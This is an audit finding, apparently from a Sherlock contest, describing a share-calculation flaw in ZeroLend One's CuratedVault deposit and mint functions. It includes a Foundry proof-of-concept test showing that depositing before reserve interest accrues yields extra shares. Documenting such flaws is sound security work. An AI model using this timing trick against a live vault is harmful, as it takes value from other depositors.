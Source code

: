 Steep Aqua Yak

Medium

# A lender can get more vault shares than expected

## Summary
When a market reserve is not updated, a lender can get more vault shares than expected due to incorrect share calculation

## Vulnerability Detail
The function [`CuratedVault#deposit()` computes shares for the depositors before executing logic in function `_deposit()` to call to update pool reserve and supply to the pool](https://github.com/sherlock-audit/2024-06-new-scope/blob/main/zerolend-one/contracts/core/vaults/CuratedVault.sol#L321-L330). The calculated share amount is calculated based on the old market reserve data, meaning that calculated the vault supplied amount will be lower than actual amount at that timestamp because interest not accrued yet. 
So the vault share amount minted for the lender will be higher than expected.
The issue also happens with `mint()` function, similarly.

#### PoC
Add this test to the test file `test/vaults/ERC4626Test.sol`
```solidity
function testDepositGetMoreShares() public {
    vm.startPrank(owner);
    vault.setFee(0.3e18);
    vm.stopPrank();

    _setCap(allMarkets[0], 100 ether);

    IPool[] memory supplyQueue = new IPool[](1);
    supplyQueue[0] = allMarkets[0];

    vm.prank(allocator);
    vault.setSupplyQueue(supplyQueue);

    loanToken.mint(supplier, 1000 ether);
    collateralToken.mint(borrower, 200 ether);

    vm.startPrank(supplier);
    loanToken.approve(address(vault), 1000 ether);
    uint256 share = vault.deposit(50 ether, supplier);

    vm.startPrank(borrower);
    allMarkets[0].supplySimple(address(collateralToken), borrower, 50 ether, 0);
    allMarkets[0].borrowSimple(address(loanToken), borrower, 30 ether, 0);

    skip(10 days);

    address lender = makeAddr('lender');
    loanToken.mint(lender, 100 ether);
    vm.startPrank(lender);
    loanToken.approve(address(vault), 100 ether);

    // TRY TO DEPOSIT WITH THE SAME AMOUNT

    // WITHOUT FORCE UPDATE RESERVE
    uint256 snapshot = vm.snapshot();
    share = vault.deposit(1 ether, lender);
    uint256 totalAssets = vault.totalAssets();

    // WITH FORCE UPDATE RESERVE
    vm.revertTo(snapshot);
    allMarkets[0].forceUpdateReserve(vault.asset());
    uint256 share_2 = vault.deposit(1 ether, lender);
    uint256 totalAssets2 = vault.totalAssets();

    
    // Shares are not equal in two scenarios
    assertGt(share, share_2); // SHARES NOT EQUAL
    assertEq(totalAssets, totalAssets2); // TOTAL VAULT ASSETS EQUAL
  }
```

Run the test and console shows:
```bash
Ran 1 test for test/forge/core/vaults/ERC4626Test.sol:ERC4626Test
[PASS] testDepositGetMoreShares() (gas: 1216233)
```

## Impact
With the same deposit amount, some lenders could get more vault shares than expected if deposit funds before market interest is accrued

## Code Snippet
https://github.com/sherlock-audit/2024-06-new-scope/blob/main/zerolend-one/contracts/core/vaults/CuratedVault.sol#L321-L330

## Tool used

Manual Review

## Recommendation
Calling to `Pool#forceUpdateReserve()` before any vault actions like deposit, mint, withdraw, redeem